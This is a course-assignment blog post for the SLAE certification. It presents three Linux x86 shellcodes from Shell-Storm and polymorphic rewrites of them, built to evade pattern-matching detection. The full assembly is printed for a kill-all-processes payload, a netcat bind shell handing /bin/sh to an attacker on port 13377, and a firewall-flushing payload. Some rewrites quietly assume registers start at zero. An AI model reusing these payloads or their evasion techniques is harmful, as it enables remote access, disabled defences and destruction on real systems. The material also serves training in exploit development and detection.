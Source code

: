 ```yaml
---
layout: post
title:  "Slae32 Assignment #6"
date:   2017-12-08 00:10:45
categories: jekyll update
---
```


# SLAE Assignment #6

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online‐courses/securitytube-linux-assembly-expert/

Student ID: SLAE-935

## Assignment

* Take up 3 shellcodes from Shell-­‐Storm and create polymorphic versions of them to beat pattern matching
* The polymorphic versions cannot be larger 150% of the existing shellcode
* Bonus points for making it shorter in length than original

## Polymorphic Shellcode1

* Original Shellcode: http://shell-storm.org/shellcode/files/shellcode-212.php
* Original Size: 11 bytes

Creating a file with the original shellcode:

```
; From: http://shell-storm.org/shellcode/files/shellcode-212.php
; Filename: shellcode1.nasm
; Author:  SLAE-935
;
; Purpose: execute kill(-1, SIGKILL)

section .text
    global _start
 
_start:
    ; kill(-1, SIGKILL);
    mov al, 37
    push byte -1
    pop ebx
    mov cl, 9
    int 0x80
```

Polymorphic version:

```
; Filename: shellcode1.poly.nasm
; Author:  SLAE-935
;
; Purpose: execute kill(-1, SIGKILL)

section .text
        global _start
 
_start:
        ; kill(-1, SIGKILL);
        add al, 37
        not ebx
        add cl, 9
        int 0x80
```

* New size: 9 bytes
* Dimension ratio: 75% of original

## Polymorphic Shellcode2

* Original Shellcode: http://shell-storm.org/shellcode/files/shellcode-804.php
* Original Size: 64 bytes

Creating a file with the original shellcode:

```
; From: http://shell-storm.org/shellcode/files/shellcode-804.php
; Filename: shellcode2.nasm
; Author:  SLAE-935
;
; Purpose: This shellcode will listen on port 13377 using netcat and give /bin/sh to connecting attacker

section .text

    global _start
 
_start:
    xor eax,eax
    xor edx,edx
    push 0x37373333
    push 0x3170762d
    mov edx, esp
    push eax
    push 0x68732f6e
    push 0x69622f65
    push 0x76766c2d
    mov ecx,esp
    push eax
    push 0x636e2f2f
    push 0x2f2f2f2f
    push 0x6e69622f
    mov ebx, esp
    push eax
    push edx
    push ecx
    push ebx
    xor edx,edx
    mov  ecx,esp
    mov al,11
    int 0x80
```

Polymorphic version:

```
; Filename: shellcode2.poly.nasm
; Author:  SLAE-935
;
; Purpose: This shellcode will listen on port 13377 using netcat and give /bin/sh to connecting attacker

section .text
    global _start
 
_start:
    shr eax, 16
    push 0x37373333
    push 0x3170762d
    push esp
    pop esi
    ;mov esi, esp
    push eax
    push 0x68732f6e
    push 0x69622f65
    push 0x76766c2d
    push esp
    pop edi
    push eax
    push 0x636e2f2f
    push 0x2f2f2f2f
    push 0x6e69622f
    push esp
    pop ebx
    push eax
    mov edx, eax
    push esi
    push edi
    push ebx
    push esp
    pop ecx
    add al,11
    int 0x80
```

* New size: 63 bytes
* Dimension ratio: 98% of original

## Polymorphic Shellcode3

* Original Shellcode: http://shell-storm.org/shellcode/files/shellcode-825.php
* Original Size: 43 bytes

Creating a file with the original shellcode:

```
; From: http://shell-storm.org/shellcode/files/shellcode-825.php
; Filename: shellcode3.nasm
; Author:  SLAE-935
;
; Purpose: iptables --flush

section .text

    global _start
 
_start:
    xor eax, eax
    push eax
    push word 0x462d
    mov esi, esp
    push eax
    push 0x73656c62
    push 0x61747069
    push 0x2f6e6962
    push 0x732f2f2f
    mov ebx, esp
    push eax
    push esi
    push ebx
    mov ecx, esp
    mov edx, eax 
    mov al, 0xb
    int 0x80
```

Polymorphic version:

```
; Filename: shellcode3.poly.nasm
; Author:  SLAE-935
;
; Purpose: iptables --flush

section .text

    global _start
 
_start:
    shr eax, 16
    push eax
    push word 0x462d
    push esp
    pop esi
    push eax
    push 0x73656c62
    push 0x61747069
    push 0x2f6e6962
    push 0x732f2f2f
    push esp
    pop ebx
    push eax
    push esi
    push ebx
    mov ecx, esp
    shl edx, 16
    push byte 11
    pop eax
    int 0x80
```

* New size: 46 bytes
* Dimension ratio: 106% of original